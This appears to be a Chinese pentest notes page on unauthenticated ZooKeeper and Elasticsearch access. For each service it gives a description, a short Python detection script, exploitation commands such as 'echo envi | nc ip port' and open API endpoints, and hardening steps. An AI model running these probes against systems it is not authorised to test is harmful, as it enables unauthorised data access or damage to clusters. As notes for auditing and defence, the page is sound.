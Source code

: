 ### ZooKeeper未授权访问漏洞
#### 漏洞描述
安装zookeeper之后默认是没有账号密码的，即没有权限校验，可被远程利用，通过目标服务器收集敏感信息，或者破坏zookeeper集群。
#### 漏洞检测
```bash
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
s.send("envi")
result = s.recv(1024)
if "zookeeper.version" in result:
    print "exist vul"
```
#### 漏洞利用
执行以下命令即可远程获取该服务器的环境：
```bash
echo envi | nc ip port
```
直接连接：
```bash
./zkCli.sh -server ip:port
```

#### 漏洞修复
1、禁止把Zookeeper直接暴露在公网
2、添加访问控制，根据情况选择对应方式（认证用户，用户名密码）
3、绑定指定IP访问

### Elasticsearch未授权访问
#### 漏洞描述
ELK是一款日志分析工具，默认监听9200端口，如果没有设置访问权限，可被非法操作数据。

#### 漏洞检测
```bash
conn = httplib.HTTPConnection(ip, port, True, TIMEOUT)
conn.request("GET", '/_cat/master')
resp = conn.getresponse()
if resp.status == 200:
    print "exist vul"
```
#### 漏洞利用
相当于一个API，任何人访问这个地址，就可以调用api，进行数据的增删改操作。
http://x.x.x.x:9200/_nodes
http://x.x.x.x:9200/_river

#### 漏洞修复
1、防火墙上设置禁止外网访问9200端口。
2、使用Nginx搭建反向代理，通过配置Nginx实现对Elasticsearch的认证
3、限制IP访问，绑定固定IP
4、在config/elasticsearch.yml中为9200端口设置认证：
```bash
http.basic.enabled true #开关，开启会接管全部HTTP连接
http.basic.user "admin" #账号
http.basic.password "admin_pw" #密码
http.basic.ipwhitelist ["localhost", "127.0.0.1"]
```
